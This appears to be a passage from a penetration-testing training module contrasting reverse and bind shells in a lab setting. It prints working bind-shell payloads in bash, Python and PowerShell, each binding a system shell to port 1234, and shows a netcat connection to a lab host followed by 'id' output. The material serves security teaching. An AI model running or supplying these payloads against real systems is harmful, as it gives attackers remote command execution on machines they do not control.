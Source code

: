 A Reverse Shell is handy when we want to get a quick, reliable connection to our compromised host. However, a Reverse Shell can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.
Bind Shell

Another type of shell is a Bind Shell. Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.

Once we execute a Bind Shell Command, it will start listening on a port on the remote host and bind that host's shell, i.e., Bash or PowerShell, to that port. We have to connect to that port with netcat, and we will get control through a shell on that system.
Bind Shell Command

Once again, we can utilize Payload All The Things to find a proper command to start our bind shell.

Note: we will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere.

The following are reliable commands we can use to start a bind shell:
Code: bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

Code: python

python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

Code: powershell

powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

Netcat Connection

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.

We can use netcat to connect to that port and get a connection to the shell:
Types of Shells

kappajester83@htb[/htb]$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

As we can see, we are directly dropped into a bash session and can interact with the target system directly. Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.
Upgrading TTY

